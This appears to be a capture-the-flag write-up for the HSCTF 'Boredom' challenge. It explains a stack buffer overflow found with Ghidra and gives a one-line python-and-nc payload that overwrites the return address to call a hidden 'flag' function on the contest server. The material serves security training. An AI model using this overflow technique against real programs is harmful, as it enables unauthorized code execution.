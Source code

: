 # Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

* check your offset, the offset is slightly different on the remote server
* the addresses are still the same

## Solution

Disassemble the bin file using ghidra and check the buffer dimension: it is 216 locally (208 on server). You'll notice that if you send 220 "a" as input, the program will try to call a function at the address: "0x7f0061616161" (character "a" in ASCII is equal to 0x61 in hex).
So just use the command:

```
python -c "print 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```

This will cause a bufferoverflow and make the program run the function "flag" (address 0x04011d5) to get the flag.txt from the server.
